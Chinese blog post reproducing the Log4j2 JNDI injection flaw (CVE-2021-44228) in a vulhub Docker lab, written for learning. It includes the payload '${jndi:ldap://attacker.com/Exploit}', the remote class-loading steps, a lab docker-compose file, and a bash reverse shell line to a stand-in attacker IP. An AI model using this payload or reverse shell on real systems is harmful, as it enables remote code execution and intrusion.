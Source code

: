 ```yaml
---
title: 漏洞分析之 CVE-2021-44228
date: 2025-04-11 14:36:00
tags: [Web, 渗透]
categories: 渗透
---
```


Log4j2 核弹级漏洞，时隔四年的复现。
<!--more-->

## 前言

当时这个漏洞出来的时候各种公众号关于这个的稿子满天飞，但是一直是个守法好公民，也没想着拿去梭两把。

虽然现在对 Java 不怎么熟悉，但是还是想挑战下自己，觉得会挺有意思的。

## 前置知识

### Log4j2 的日志记录功能

第一次看到 Log4j 可能会有点奇怪 —— 怎么叫这名
但是如果说这个是 Log for Java 的谐音的话，那一切就合理了
Log4j2 也不难理解，就是 Log4j 的第二个版本，就跟 python2 和 python3 一样，最早其实也是有 python 1.x 版本的，但是 python2 从 2000 年就开始推行，所以没人认识 python1.x 而已。

### Lookup 功能的设计缺陷

Log4j2 支持一种名为 Lookup 的功能，允许在日志中插入动态内容，比如环境变量、系统信息等。
其语法为 `${...}`，例如 `${java:version}` 会被替换为当前 Java 版本，听起来有点 SSTI 那味了。

### JNDI

JNDI，全称 Java Naming and Directory Interface，Java 命名和目录接口，是 Java 提供的一种 API，用于访问命名和目录服务。
没接触过的读者看到这行字可能会心想：叽里咕噜说什么呢
但是问题不大，我也没看懂。
我们只需要大概理解成**给他一个名字，他就能找到你想要的东西**就行了，类似 Python 里的字典。

### LDAP

LDAP，全称 Lightweight Directory Access Protocol，轻量级目录访问协议，是一种用于访问和维护分布式目录信息服务的协议。
如果这个也不看懂，那也没关系，同样类比 HTTP 协议就行了。

## 原理

假设有一个 Java 网站的登录接口记录用输入的用户名，大概意思是这样，代码不一定对：

```java
logger.error("登录失败，用户名：" + username);
```

若攻击者提交的用户名为 `${jndi:ldap://attacker.com/Exploit}`，那么

1. Log4j2 会解析 `${jndi:...}`，向 `attacker.com` 发起 LDAP 请求。
2. LDAP 服务器返回一个指向 `http://attacker.com/Exploit.class` 的地址。
3. Java 应用下载并执行 `Exploit.class` 中的恶意代码。

## 复现

受影响的版本 Apache Log4j 2.x <= 2.14.1
使用 [vulhub](https://github.com/vulhub/vulhub) 的 docker 镜像，位于 `/log4j/CVE-2021-44228`

```bash
docker-compose up -d
```

启动一下（每日热知识：`-d` 是 `--detach` 的缩写，表示在后台运行容器）

试了好久那个 dnslog 都不行，感觉是网络问题，因为我本地访问也是时灵时不灵

不管那么多了，直接上 exploit
但是试了好久也不太行，看日志发现貌似是网络问题，于是把靶机和 Java Chains 塞一块，docker-compose 配置如下：

```yaml
version: '2'
services:
  solr:
    image: vulhub/solr:8.11.0
    ports:
      - "8983:8983"
      - "5005:5005"
  java-chains:
    image: javachains/javachains:latest
    ports:
      - "8011:8011"
      - "58080:58080"
      - "50389:50389"
      - "50388:50388"
      - "3308:3308"
      - "13999:13999"
      - "50000:50000"
      - "11527:11527"
    environment:
      - CHAINS_AUTH=true
      - CHAINS_PASS=
    restart: always
```

依着 vulhub 自带的[教程](https://github.com/vulhub/vulhub/blob/master/log4j/CVE-2021-44228/README.zh-cn.md)做，但是有个比较关键的点，那就是**在 JDNI Control 面板把 IP 调成 Java Chains 的 IP**，因为受害机要通过这个 IP 反连过来下载恶意代码（上文已经提过），此事在[Java Chains 文档](https://java-chains.vulhub.org/zh/docs/module/jndi#jndibasicpayload)中亦有记载。

经测试 `touch /tmp/success` 成功，具体的反弹 shell 就不作测试了，贴个简单的反弹 shell 命令：

```bash
bash -i >& /dev/tcp/attacker_ip/port 0>&1
```

// To be continued...

## 参考

[log4j2漏洞CVE-2021-44228复现笔记(纯步骤过程，没有复杂的知识点)](https://blog.csdn.net/qq_41132792/article/details/124952616)
[跟个风，聊一聊这两天很火的Log4j核弹级漏洞](https://baijiahao.baidu.com/s?id=1718842142014280135)
